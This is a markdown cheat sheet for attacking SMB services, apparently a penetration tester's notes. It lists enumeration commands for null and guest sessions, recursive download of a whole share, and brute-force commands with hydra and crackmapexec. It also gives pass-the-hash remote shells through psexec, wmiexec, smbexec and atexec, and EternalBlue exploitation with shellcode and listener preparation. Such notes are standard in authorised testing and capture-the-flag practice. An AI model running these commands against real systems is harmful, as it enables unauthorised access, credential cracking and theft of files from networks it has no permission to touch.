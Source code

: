 - Manual testing
  - smbmap
    - `smbmap -H <IP>`
    - `smbmap -u '' -p '' -H <IP>`
    - `smbmap -u 'guest' -p '' -H <IP>`
    - `smbmap -u '' -p '' -H <IP> -R`

- crackmapexec
  - `crackmapexec smb <IP>`
  - `crackmapexec smb <IP> -u '' -p ''`
  - `crackmapexec smb <IP> -u 'guest' -p ''`
  - `crackmapexec smb <IP> -u '' -p '' --shares`

- emum4linux
  - `enum4linux -a <IP>`
  
- smbclient
  - `smbclient --no-pass -L //$IP`
  - `smbclient //<IP>/<SHARE>`
  - Download all files from a directory recursively
    - `smbclient //<IP>/<SHARE> -U <USER> -c "prompt OFF;recurse ON;mget *"`

- Brute force
  - `crackmapexec smb <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>`
  - `hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> smb://<IP> -u -vV`
- Mount a SMB share
  - `mkdir /tmp/share`
  - `sudo mount -t cifs //<IP>/<SHARE> /tmp/share`
  - `sudo mount -t cifs -o 'username=<USER>,password=<PASSWORD>'//<IP>/<SHARE> /tmp/share`

  - `smbclient //<IP>/<SHARE>`
  - `smbclient //<IP>/<SHARE> -U <USER>`

- Get a shell
  - `psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>`
  - `psexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>`

  - `wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>`
  - `wmiexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>`

  - `smbexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>`
  - `smbexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>`

  - `atexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP> <COMMAND>`
  - `atexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>`

- EternalBlue (MS17-010)
  - <https://github.com/3ndG4me/AutoBlue-MS17-010>

- Check if vulnerable
  - `python eternal_checker.py <IP>`

- Prepare shellcodes and listeners
  - `cd shellcode`
  - `./shell_prep.sh`
  - `cd ..`
  - `./listener_prep.sh`
